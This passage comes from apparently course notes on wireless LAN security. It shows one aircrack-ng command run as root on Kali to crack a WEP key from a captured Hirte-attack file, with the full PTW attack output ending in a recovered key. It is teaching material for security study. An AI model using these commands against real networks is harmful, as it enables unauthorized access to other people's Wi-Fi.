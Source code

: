 Run ```aircrack-ng``` to obtain the key

```sh
root@kali:~# aircrack-ng Hirte-01.cap
Opening Hirte-01.cap
Read 211673 packets.

   #  BSSID              ESSID                     Encryption

   1  00:C0:CA:92:3C:89  dlink                     WEP (19398 IVs)
   2  84:C9:B2:6D:0C:85  dlink                     WEP (275 IVs)

Index number of target network ? 1

Opening Hirte-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 19718 ivs.

                                           Aircrack-ng 1.2 rc4


                           [00:00:01] Tested 9977 keys (got 19630 IVs)

   KB    depth   byte(vote)
    0    7/ 10   AA(24320) C4(24320) EF(24320) 1C(24064) 31(24064) 66(24064) 3F(23808)
    1    6/ 17   BB(24064) 3D(24064) 7F(24064) 8E(24064) E7(23808) 70(23552) 99(23552)
    2    0/  1   CC(28416) 00(25344) 7D(24832) C9(24832) 1E(24064) 8D(24064) 9A(24064)
    3   10/ 12   C7(24064) 0E(23808) 10(23808) D9(23808) 25(23552) 4C(23552) 8C(23552)
    4    0/  5   EE(27136) 9A(26880) C8(26624) 6D(25344) 70(25088) 60(24576) 38(24320)

                         KEY FOUND! [ AA:BB:CC:DD:EE ]
	Decrypted correctly: 100%


root@kali:~#
```

![Image of Demo](https://github.com/Kan1shka9/Wireless-LAN-Security-Megaprimer-Notes/blob/master/images/part_19.jpeg)
